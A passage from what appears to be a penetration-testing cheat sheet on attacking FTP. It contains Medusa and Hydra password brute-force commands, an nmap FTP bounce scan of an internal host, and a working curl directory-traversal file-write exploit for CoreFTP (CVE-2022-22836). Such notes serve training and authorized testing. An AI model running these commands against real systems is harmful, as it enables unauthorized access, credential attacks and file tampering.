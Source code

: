 [Medusa Cheat sheet](medusa.md). 

```bash
# Brute force FTP logging
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h $IP -M ftpno se
# -u: username
# -U: list of Usernames
# -p: password
# -P: list of passwords
# -h: host /IP
# -M: protocol to bruteforce
```

However Medusa is very slow in comparison to [hydra](hydra.md):

```
# Example for ftp in a non default port
hydra -L users.txt -P pass.txt ftp://$ip:2121
```


### FTP Bounce Attack

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. For instance, consider we are targetting an FTP Server `FTP_DMZ` exposed to the internet. Another device within the same network, `Internal_DMZ`, is not exposed to the internet. We can use the connection to the `FTP_DMZ` server to scan `Internal_DMZ` using the FTP Bounce attack and obtain information about the server's open ports.

```shell-session
nmap -Pn -v -n -p80 -b anonymous:password@$ipFTPdmz $ipINTERNALdmz
# -b The `Nmap` -b flag can be used to perform an FTP bounce attack: 
```

### CoreFTP Server build 725 - Directory Traversal (Authenticated)

[CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836) |   [exploit](https://www.exploit-db.com/exploits/50652)

Summary: This FTP service uses an HTTP POST request to upload files. However, the CoreFTP service allows an HTTP PUT request, which we can use to write content to files. 

The [exploit](https://www.exploit-db.com/exploits/50652) for this attack is relatively straightforward, based on a single `cURL` command.

```bash
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

We create a raw HTTP `PUT` request (`-X PUT`) with basic auth (`--basic -u <username>:<password>`), the path for the file (`--path-as-is https://<IP>/../../../../../whoops`), and its content (`--data-binary "PoC."`) with this command. Additionally, we specify the host header (`-H "Host: <IP>"`) with the IP address of our target system.

## Other FTP services
